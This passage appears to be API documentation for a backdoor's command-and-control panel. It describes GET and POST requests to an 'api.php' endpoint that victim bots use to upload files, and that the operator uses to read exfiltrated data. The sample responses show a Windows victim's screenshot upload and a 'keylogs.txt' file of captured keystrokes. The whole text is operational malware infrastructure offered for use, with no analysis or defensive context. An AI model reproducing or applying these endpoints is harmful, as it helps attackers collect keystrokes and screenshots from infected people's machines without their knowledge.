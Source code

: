 ###### GET GLOBAL RESPONSE DATA FROM ACCOUNT:
> Attention! After executing the request, the line will be deleted from the server!

**GET REQUEST:** _httр://host/api.php?profile=PROFILE&token=TOKEN&type=global&get_response_
```json
{
   "status":"Success",
   "message":"global response data here",
   "value":true,
   "response":"Here is global response"
}
```

###### UPLOAD FILE TO USER FOLDER:
>  Example python code to upload file: https://pastebin.com/0gteFain  
>  File will be saved in folder: /users/`profile`/`bot_uuid`/file.txt  
 
**POST REQUEST WITH FILE:** _httр://host/api.php?profile=PROFILE&token=TOKEN&bot_uuid=BOT_UUID&upload_
```json
{
   "status":"Success",
   "message":"File uploaded successfully!",
   "value":true,
   "path":"/var/www/html/users/LimerBoy/Admin@WIN-55TC7FCB9AT/",
   "debug":{
      "files":{
         "name":"screenshot.png",
         "type":"",
         "tmp_name":"/tmp/phpxdgd67",
         "error":0,
         "size":317270
      }
   }
}
```

###### READ FILES FROM YOU DIRECTORY:
> For example we read uploaded file by bot. In her directory.

**GET REQUEST:** _httр://host/api.php?profile=PROFILE&token=TOKEN&read_file=BOT_UUID/keylogs.txt_
```json
{
   "status":"Success",
   "message":"Reading file: 0d94a079-07dd-4409-a30d-a4f49bb33975/keylogs.txt",
   "value":true,
   "file":[
      "Hello!!/r",
      "LLALALALAALALAL/r",
      "IT'S BACKDOOR AAAAasdasder3wesd/r",
      "dgs/r",
      "fds/r",
      "gfg/r",
      "fgfd3/t2"
   ]
}
```
